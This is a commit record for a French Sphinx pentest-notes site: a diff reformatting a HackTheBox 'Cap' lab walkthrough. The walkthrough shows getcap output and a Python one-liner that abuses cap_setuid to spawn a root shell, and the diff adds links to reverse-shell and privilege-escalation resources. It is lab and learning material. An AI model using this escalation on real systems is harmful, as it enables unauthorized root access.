

Before and after one commit to Iole-Bri/misp_docs_2, a Sphinx documentation site: the page built from docs/source/src/pentest.md, in a window 1280 px wide and 900 px high, scrolled down 1445 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
modif pentest.md

````diff
--- a/docs/source/src/pentest.md
+++ b/docs/source/src/pentest.md
@@ -59,10 +59,20 @@ Exemple :
 
 * N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)
 
-nathan@cap:~$ getcap -r / 2>/dev/null
-/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
-/usr/bin/ping = cap_net_raw+ep
-/usr/bin/traceroute6.iputils = cap_net_raw+ep
-/usr/bin/mtr-packet = cap_net_raw+ep
-/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
-nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
+    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
+    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
+    <br/>ans : /usr/bin/ping = cap_net_raw+ep
+    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
+    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
+    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
+    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
+    <br/>ans : root@cap:~#
+    C'est bon, on est root sur la machine.
+
+
+    ## Autres Sources
+
+    * [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
+    * [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
+    * [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
+    * [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
````
